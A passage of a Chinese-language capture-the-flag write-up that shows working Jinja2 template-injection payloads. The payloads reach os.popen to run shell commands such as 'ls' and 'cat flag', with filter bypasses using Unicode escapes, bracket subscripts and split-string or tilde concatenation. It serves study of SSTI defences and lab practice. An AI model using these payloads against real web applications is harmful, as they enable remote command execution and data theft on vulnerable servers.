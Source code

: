 除了可以使用十六进制编码外,还可以使用 unioncode

`__class__`=>`\u005f\u005f\u0063\u006c\u0061\u0073\u0073\u005f\u005f`

[例子](https://buaq.net/go-74232.html):

`{{()|attr("__class__")|attr("__base__")|attr("__subclasses__")()|attr("__getitem__")(77)|attr("__init__")|attr("__globals__")|attr("__getitem__")("os")|attr("popen")("ls")|attr("read")()}}`

**_Unicode 编码后:_**

`{{()|attr("\u005f\u005f\u0063\u006c\u0061\u0073\u0073\u005f\u005f")|attr("\u005f\u005f\u0062\u0061\u0073\u0065\u005f\u005f")|attr("\u005f\u005f\u0073\u0075\u0062\u0063\u006c\u0061\u0073\u0073\u0065\u0073\u005f\u005f")()|attr("\u005f\u005f\u0067\u0065\u0074\u0069\u0074\u0065\u006d\u005f\u005f")(77)|attr("\u005f\u005f\u0069\u006e\u0069\u0074\u005f\u005f")|attr("\u005f\u005f\u0067\u006c\u006f\u0062\u0061\u006c\u0073\u005f\u005f")|attr("\u005f\u005f\u0067\u0065\u0074\u0069\u0074\u0065\u006d\u005f\u005f")("os")|attr("popen")("ls")|attr("read")()}}`

### Level 7 bypass .

![image-20210926111709414](https://particles.oss-cn-beijing.aliyuncs.com/img/image-20210926111709414.png)
初步尝试发现过滤了`.`,其余没有任何过滤,此处可以使用`[]`绕过.

> [You can use a dot (`.`) to access attributes of a variable in addition to the standard Python `__getitem__` “subscript” syntax (`[]`).](https://jinja.palletsprojects.com/en/3.0.x/templates/#variables)
>
> python 语法除了可以使用点 `.`来访问对象属性外,还可以使用中括号`[]`.同样也可以使用\_\_getitem\_\_

构造 payload,拿到 flag

`{{()['__class__']['__base__']['__subclasses__']()[132]['__init__']['__globals__']['popen']('cat flag')['read']()}}`

![	](https://particles.oss-cn-beijing.aliyuncs.com/img/image-20210926112300549.png)

### Level 8 bypass keywords

![image-20210926130328927](https://particles.oss-cn-beijing.aliyuncs.com/img/image-20210926130328927.png)

从提示可以看到 ban 了许多关键字.此处可以使用`字符串拼接`绕过

构造 payload,拿到 flag

`{{()['__cla''ss__']['__ba''se__']['__subcla''sses__']()[132]['__in''it__']['__glo''bals__']['popen']('cat flag')['read']()}}`

![image-20210926143626497](https://particles.oss-cn-beijing.aliyuncs.com/img/image-20210926143626497.png)

#### 拓展

除了使用简单的字符串拼接方式外,还可以使用:

1. 字符编码(上面介绍过,就不再提了)

2. 使用`Jinjia2`中的`~`进行拼接.如`{%set a="__cla"%}{%set aa="ss__"%}{{a~aa}}`
